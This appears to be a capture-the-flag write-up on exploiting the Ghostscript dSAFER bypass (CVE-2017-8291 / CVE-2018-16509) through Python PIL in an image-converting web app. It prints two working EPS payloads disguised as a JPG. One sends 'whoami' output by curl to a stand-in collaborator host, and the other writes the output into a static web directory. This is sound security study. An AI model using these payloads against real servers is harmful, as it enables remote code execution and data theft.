






Challenge description
---------------------

This challenge involves exploiting CVE-2017-8291 / CVE-2018-16509 (GhostButt) on `ghostscript`. 

GhostButt
---------

`Ghostscript` is a software pre-installed in many production servers (e.g. `/usr/local/bin/gs`) even if no application uses it because it is a dependency of many image software. 

This is a sample `gs` command: `gs -q -g100x100 -r72.000000x72.000000 -dBATCH -dNOPAUSE -dSAFER -sDEVICE=ppmraw -sOutputFile=/tmp/tmpi8gqd19k -c 0 0 translate -f ../poc.png` (used by Python `PIL`). In this command, it uses `-dSAFER` which disallows behaviors like file deletion, rename and command execution. However, CVE-2017-8291 is the bypass of `dSAFER`. 

Web application description
---------------------------

The web application basically accepts an image file and convert it to a GIF by using `PIL`. I tried uploading malicious stuff but the upload file type validation is done nicely. 

Methodology on finding the CVEs
-------------------------------

When inspecting the `Dockerfile`, we can see `ghostscript` is installed for “Pillow component” (the Python `PIL`). 



When searching exploits for `Ghostscript`, there are a lot of it. One example is from the `metasploit`:





`metasploit` even told us that it can be exploited through libraries such as `Pillow`. However, it only works for `Ghostscript` versions 9.21 and earlier. After doing some research, it seems like there is a new exploit (CVE-2018-16509) which works for versions 9.23 and earlier. 

`PIL` and `Ghostscript`
-----------------------

Basically, the `PIL.Image.open()` function will use a function called `_open_core()`, which will again use another function called `accept()`. This `accept()` function will determine the file type based on the file prefix. If the file prefix is `%!PS`, it will process the file as EPS format (use `Ghostscript`) even though the file extension is `.jpg`. 

However, by calling `Image.open` by itself won't trigger the vulnerability, other functions such as `Image.load` must be called. The web application does not call `Image.load` but almost any other `PIL.Image` functions will use `load()`. 



PoC
---

I got my PoC.jpg from [here](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509) and I changed the command executed to exfiltrate target system information:

```text-plain
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl https://BURP-COLLABORATOR.com/?info=$(whoami)) currentdevice putdeviceprops
```

However, this did not work maybe because the target firewall blocks outbound DNS and HTTP requests.

So, I wrote the command result into a file in the upload directory:



```text-plain
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%whoami > /app/application/static/petpets/rce.txt) currentdevice putdeviceprops
```

Result:

